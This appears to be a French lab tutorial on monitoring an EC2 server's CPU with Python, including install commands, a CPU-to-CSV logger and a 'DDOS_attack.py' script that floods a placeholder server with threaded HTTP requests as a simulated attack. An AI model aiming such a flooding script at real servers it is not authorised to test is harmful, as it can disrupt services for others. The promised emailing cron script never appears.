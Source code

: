 ```yaml
---
# Tutoriel: Surveillance des Performances d'un serveur EC2 avec Python et simulation d'attaques DDOS
Ce tutoriel explique comment mettre en place un système de surveillance des performances du serveur en utilisant Python et Cron. Le script Python envoie un email avec les détails des performances du serveur à un administrateur système toutes les minutes.


### Installation de Python et des dépendances

#### installation_python.sh

```bash
sudo yum install python3  # Installe Python 3
sudo yum install python3-pip  # Installe pip pour Python 3
sudo pip3 install requests  # Installe la bibliothèque requests
sudo pip3 install psutil  # Installe la bibliothèque psutil
python3 --version  # Vérifie la version de Python 3 installée
python3 -c "import requests; print(requests.__version__)"  # Vérifie la version de requests installée
python3 -c "import psutil; print(psutil.__version__)"  # Vérifie la version de psutil installée
```

- `sudo yum install python3`: Installe Python 3 à l'aide de `yum`.
- `sudo yum install python3-pip`: Installe pip pour Python 3 via `yum`.
- `sudo pip3 install requests`: Installe la bibliothèque Python `requests` pour effectuer des requêtes HTTP.
- `sudo pip3 install psutil`: Installe la bibliothèque Python `psutil` pour récupérer les informations sur le système et le processeur.
- `python3 --version`: Affiche la version de Python 3 installée.
- `python3 -c "import requests; print(requests.__version__)"`: Vérifie la version de la bibliothèque `requests` installée.
- `python3 -c "import psutil; print(psutil.__version__)"`: Vérifie la version de la bibliothèque `psutil` installée.

---
```


### Script de l'attaque DDoS simulée

#### DDOS_attack.py

```python
import requests
import concurrent.futures
import time

# Adresse IP ou URL du serveur cible à attaquer
target_server = 'http://<Adresse_IP_du_server_1>'

# Nombre de requêtes par canal (thread)
requests_per_channel = 100

# Nombre total de canaux (threads) à utiliser
num_channels = 10

# Fonction pour envoyer des requêtes HTTPS au serveur cible
def send_requests():
    for _ in range(requests_per_channel):
        try:
            response = requests.get(target_server)
            print(f"Request sent to {target_server} | Status code: {response.status_code}")
        except Exception as e:
            print(f"Request failed: {str(e)}")

# Fonction principale pour lancer les canaux simultanément
def launch_attack():
    with concurrent.futures.ThreadPoolExecutor(max_workers=num_channels) as executor:
        futures = [executor.submit(send_requests) for _ in range(num_channels)]
        concurrent.futures.wait(futures)

# Lancement de l'attaque DDoS
if __name__ == '__main__':
    print(f"Launching DDoS attack on {target_server}...")
    launch_attack()
```

- `target_server`: Définit l'adresse IP ou l'URL du serveur cible à attaquer.
- `requests_per_channel`: Nombre de requêtes par canal (thread).
- `num_channels`: Nombre total de canaux (threads) à utiliser pour l'attaque.
- `send_requests()`: Fonction qui envoie des requêtes HTTPS répétées au serveur cible.
- `launch_attack()`: Fonction principale qui lance plusieurs threads simultanément pour envoyer les requêtes.
- `if __name__ == '__main__':`: Point d'entrée du script qui lance l'attaque DDoS sur le serveur cible spécifié.

---

### Surveillance des performances CPU

#### cpu_performance.py

```python
import psutil
import csv
import time

# Chemin du fichier CSV pour enregistrer les performances
csv_file = '/home/ec2-user/lab10_cpu_performance/performance.csv'

# Fonction pour récupérer les informations sur le CPU
def get_cpu_stats():
    cpu_percent = psutil.cpu_percent(interval=None)  # Utilisation du CPU en pourcentage
    timestamp = int(time.time())  # Timestamp actuel
    return timestamp, cpu_percent

# Fonction pour écrire les données dans un fichier CSV
def write_to_csv(timestamp, cpu_percent):
    with open(csv_file, mode='a') as file:
        writer = csv.writer(file, delimiter=',', quotechar='"', quoting=csv.QUOTE_MINIMAL)
        writer.writerow([timestamp, cpu_percent])

# Boucle principale pour surveiller toutes les deux secondes
while True:
    timestamp, cpu_percent = get_cpu_stats()
    write_to_csv(timestamp, cpu_percent)
    time.sleep(2)  # Attente de deux secondes avant la prochaine lecture
```

- `csv_file`: Chemin du fichier CSV où les données de performance du CPU seront enregistrées.
- `get_cpu_stats()`: Fonction qui utilise `psutil` pour récupérer le pourcentage d'utilisation du CPU et le timestamp actuel.
- `write_to_csv(timestamp, cpu_percent)`: Fonction qui écrit les données récupérées dans le fichier CSV spécifié.
- Boucle principale `while True`: Boucle infinie qui récupère périodiquement les statistiques du CPU et les enregistre dans le fichier CSV toutes les deux secondes.

---

### Conclusion

Ce tutoriel explique comment installer Python et les bibliothèques nécessaires, comment simuler une attaque DDoS en utilisant des threads pour envoyer des requêtes HTTPS multiples, et comment surveiller et enregistrer les performances du CPU dans un fichier CSV. Assurez-vous d'adapter les adresses IP, les chemins de fichier et les paramètres selon votre configuration spécifique.